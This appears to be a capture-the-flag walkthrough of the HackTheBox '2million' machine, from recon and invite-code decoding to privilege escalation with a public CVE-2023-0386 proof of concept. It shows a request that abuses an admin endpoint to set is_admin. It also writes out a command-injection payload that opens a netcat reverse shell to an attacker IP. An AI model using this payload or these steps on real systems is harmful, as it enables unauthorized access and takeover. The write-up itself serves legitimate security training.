

# INITIAL ACCESS

## DISCOVERY

1. Run a `nmap` scan and discover ports 22 and 80 open


2. Add `2million.htb` to the `/etc/hosts` file

3. Explore the webpage and discover the `/invite` endpoint


4. Using BurpSuite, notice that this page makes a call to `js/inviteapi.min.js`


5. The js content is obfuscated, but you can copy it as a one-liner and paste it to https://beautifier.io/ to de-obfuscate it


6. Make a POST request to `/api/v1/invite/how/to/generate`


7. Decode the message using [CyberChef](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=VmEgYmVxcmUgZ2IgdHJhcmVuZ3IgZ3VyIHZhaXZnciBwYnFyLCB6bnhyIG4gQ0JGRyBlcmRocmZnIGdiIC9uY3YvaTEvdmFpdmdyL3RyYXJlbmdy) 



8. Make a POST request to `api/v1/invite/generate` and notice that the code you received is base64 encoded. Decode that to get the code


9. Make an account and log in. Then explore the landing page a bit.


10. After logging in, we can enumerate the API endpoints by submitting a request to `/api/v1`


11. Although most of the admin endpoints are locked against unauthenticated users, the `PUT` request to `/api/v1/admin/settings/update` is not. The following screenshots show the enumeration process of discovering how to abuse this to make our user admin, eventually submitting the following request

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Content-Type: application/json

{
	"email":"your registered email",
	"is_admin":1
}
```


Then we can verify that our user is now admin


12. With admin permissions added to our account, we can verify the `/api/v1/admin/vpn/generate`. It expects a valid username, and the screenshots below show the enumeration process.


We can generate the ovpn file, but that's useless. There is no difference between generating the file as an admin or as a low-privileged user. However, we needed to provide the username when generating the file as admin. This is interesting because then it might be vulnerable to code injection - which is confirmed, as demonstrated below.


We get our first shell by injecting `; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 1337 >/tmp/f` 


13. Investigate the files in `/var/www/html` and notice the `.env` contains the **admin** password.


14. Use that password to SSH as **admin**


15. Enumerate admin files and notice that there is a message in `/var/mail/admin`


16. Search for the exploit mentioned. A Google search leads us to https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/


17. We can try the exploit mentioned, however, that is not sufficient since we still don't have root access.


18. The exploit website mentions a [proof of concept](https://github.com/xkaneiki/CVE-2023-0386/). We can download that POC and follow the manual (use Google translator) to get root.


